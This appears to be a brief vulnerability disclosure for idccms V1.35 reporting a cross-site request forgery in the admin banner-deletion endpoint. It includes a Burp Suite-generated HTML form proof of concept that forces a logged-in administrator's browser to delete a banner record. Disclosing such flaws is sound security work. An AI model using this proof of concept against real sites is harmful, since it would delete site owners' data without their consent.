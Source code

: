 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/banner_deal.php?mudi=del&dataType=&dataTypeCN=%E5%9B%BE%E7%89%87%E5%B9%BF%E5%91%8A&theme=cs&dataID=6

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/banner_deal.php?mudi=del&dataType=&dataTypeCN=%E5%9B%BE%E7%89%87%E5%B9%BF%E5%91%8A&theme=cs&dataID=6" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
